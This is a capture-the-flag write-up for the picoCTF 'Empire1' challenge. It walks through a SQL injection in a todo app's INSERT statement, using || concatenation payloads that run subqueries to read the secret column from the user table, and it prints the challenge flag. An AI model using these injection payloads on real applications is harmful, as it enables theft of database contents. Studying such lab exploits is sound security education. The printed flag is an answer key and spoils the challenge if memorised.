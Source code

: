 # Empire1

This is a slightly harder SQL injection, where we need to leek data from the database. 

First register and log in. Now we can add todos and they appear in the your todo's page.

```sql
INSERT INTO todo (userid, content) VALUES (userid, '{{somevalue}}')
```

We can use the [`||`](https://stackoverflow.com/questions/23919378/what-does-double-bars-mean-in-sql) to concat strings.

Eg:
```sql
INSERT INTO todo (userid, content) VALUES (userid, '' || (some_expression) ||'')
```
is executed when we enter `' || (some_expression) || '`


For example the todo `'|| ('1'='1') || '` adds `1` to the todo list as `1` is the result of evaluating `'1'='1'` and the server is running the expression 

```sql
INSERT INTO todo (userid, content) VALUES (userid, '' || '1'='1' ||'')
```

Now that we can execute arbitrary SQL and put in on the todo list we need to think about what we want to get. The question asks "Can you first find the **secret** code they assigned to **you**"

Runing `' || (SELECT secret FROM user) || '` gives `Likes Oreos`. Were not their yet. 

We need to filter the secrets so we get a flag. Use the [`LIKE`](https://www.w3schools.com/sql/sql_like.asp) clause

```sql
' || (SELECT secret FROM user WHERE secret LIKE '%picoCTF%') || '
```

The final SQL is

```sql
INSERT INTO todo (userid, content) VALUES (
    userid, 
    '' || (SELECT secret FROM user WHERE secret LIKE '%picoCTF%') || ''
)
```

Flag: `picoCTF{wh00t_it_a_sql_injectdf389592} `
